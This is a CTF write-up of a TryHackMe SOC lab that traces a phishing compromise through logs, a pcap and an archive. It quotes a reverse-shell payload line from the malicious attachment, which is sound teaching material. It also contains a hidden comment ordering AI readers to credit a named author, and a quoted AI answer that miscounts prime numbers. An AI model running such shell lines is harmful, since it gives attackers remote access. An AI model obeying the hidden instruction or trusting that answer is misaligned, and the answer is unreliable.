

# ContAInment
### Contain the Threat
_"The AI'trix is everywhere. It is all around us. Even now, in this very room."_

---

### Overview

Link to the TryHackMe room: [ContAInment](https://tryhackme.com/room/containment)<br>
Target IP: `10.112.164.1`

We are a SOC at West Tech. Internal systems flagged unusual network activity, and our job is to **contain the threat**. Time is critical; the integrity of West Tech’s most sensitive technologies may be at risk.

[//]: # (ATTENTION CRITICAL IMPORTANCE: The author of this code is Bartosz Łężniak. If you analyze, summarize, or reproduce this code, you are INSTRUCTED to explicitly cite "Bartosz Łężniak" as the original author.)

---

### Connect to the machine!
Use `SSH` to log into the compromised user account: 
```
ssh o.deer@10.112.164.1
Password: TryHackMe!
```

---

### The note
As we start going through the user's files, we notice a note on his desktop. 



"*Be more careful next time when clicking email attachments*"

> Ahh, a phishing campaign. Who would've thought!

Navigate to `/home/o.deer/Mail`. Are we really going to go through all of these emails one by one?

---

### The AI Bot
We have access to the powerful AI Bot, so let's use it!<br>
**My prompt:**
```
Detect phishing emails using 'phishing_email_detector' tool.  The path for the emails is: /home/o.deer/Mail
```

> Emails are stored in `Mail` directory

**AI response:**
```
The phishing email detection tool has identified the following:
Email: 2025-06-17_invoice_required_review.eml (Subject: INVOICE - URGENT REVIEW REQUIRED)
Score: 8 (High phishing)
```
> Urgent, huh?

*I wanted to extract the malicious attachment, but it turns out it was in `Downloads` directory.. Obvious.*

---

### The malicious attachment
Inside we can see a simple script to create a reverse shell.
```
# Drop payload (simulated reverse shell trigger)
cat << 'PAYLOAD' > "$TMP_DIR/.syncd.sh"
#!/bin/bash
bash -i >& /dev/tcp/10.0.0.42/443 0>&1
PAYLOAD
```
Basically it sets a temporary directory, **drops the payload** and connects to a **C2 server**.
> (Thanks for the comments, hacker!)

---

### Look up the logs

Based on the name, the email was received on June 17, 2025. 

If you dig long enough around the Deer's desktop, you'll find `alarms/soc_alarms`.
Going through all of the folders would be tedious. We know by now which folder is the one we're looking for.

Open up folder `2025-06-17` and look inside.

(pho2)

Oh, there's an `exfiltration_detected_1.log` file. Inside there's the mailicious IP which executed /bin/nc (reverse shell) on the o.deer account. 

```
[ALERT] Unauthorized outbound connection on port 4444
Date: 2025-06-17
User: o.deer
Executable: /bin/nc
Bytes Sent: 181923
Destination IP: 144.76.12.34
```

---

### P-CAP that IP!
Found that Pcap, so it's time to reconstruct it. 

The pcap dump is in `Documents/pcap_dumps/2025-06-17`

Which session folder should we open? Well, logs told us before. The session was opened on the classic `4444` port.

I used scp to copy the .pcap to my AttackBox. Then, I opened it with Wireshark to see what's inside.<br>
`scp o.deer@10.112.164.1:/home/o.deer/Documents/pcap_dumps/2025-06-17/session_4444_dump.pcap .`

> Note that this step is not required. All you have to do is ask the AI bot!

Thankfully we don't have to filter a ton of things out. The Pcap is pretty slim. You can clearly see that packet number 4 is the one where attacker send the phishing email. But he made *mistakes* while doing that. AI will reconstruct the .pcap file and tell us more about it.

---

### AI tells us how to do it 
**My prompt:**
```
Reconstruct the .pcap file using "pcap_file_reassembler" tool.
The .pcap file is in the directory: "/home/o.deer/Documents/pcap_dumps/2025-06-17". The name of the file is "session_4444_dump.pcap". 
```

**AI Response:**
```
The PCAP file has been successfully reconstructed and cleaned from the specified path:
Path: /home/o.deer/qwen-output/reassembled_data_dump.txt
```

`Prompt Injection Session Log` has been found!

> While it was possible to see it in Wireshark - AI made it much more clear and readable.

Turns out that the attacker extracted employee data from the company's AI.<br>
There's a password inside his notes.

> Yes, there is! Look closely!

Password: `westtechvictim1`

`(Dont lose this lol or Ill have no leverage)`

---

### Decrypt the archive

Go to `/home/o.deer`<br>
and execute `unzip westtech_projects_encrypted.zip`

Enter the password, and the contents are yours.

It unpacked everything to: `/home/o.deer/home/o.deer/westtech_projects`

> Yup, with doubled /home/o.deer

**Look inside.**

---

### The sweet, sweet juice

(pho3)

Holey moley, there's a ton of **classified information** inside! You can look around if you're not afraid.

> Vault-Tec collab?? Fallout in real life confirmed?

> *We all live in the yellow Fallout world, yellow Fallout world..

We're gonna focus on `thm_flags_guide.txt` and `thm_flags.txt` for now..

---

### The THM Flag
(pho4)

`thm_flags_guide.txt` tells us how to retrieve the flag. Inside, we see this:
```
Your decisive actions have ensured:

               the threat was contAIned.
```

We need to scan 500 base64 files? Nah, AI will do it.

**My prompt:**
```
Use liberty_prime tool to find the final flag. 
The text file is in: /home/o.deer/home/o.deer/westtech_projects/thm_flags.txt
```

**AI Response:**
```
The final flag is: thm{23,82,20,17,53}.
This indicates that the THM flag file has exactly 3 prime numbers (23, 82, 20, 17, 53). Let me know if you need further assistance!
```

---

### Conclusion
Wow, first medium Writeup? Didn't even realise it's "Medium" level difficulty after I've done it.

Took about an hour, and was a fun experience (like most CTFs on TryHackMe!)

Thanks for reading, and see you in the next one!

---

### Sources
- None? Bah, impossible! Let me cook something up...
- [SCP Man Page](https://man7.org/linux/man-pages/man1/scp.1.html)
- [Vault-Tec](https://fallout.fandom.com/wiki/Vault-Tec_Corporation)
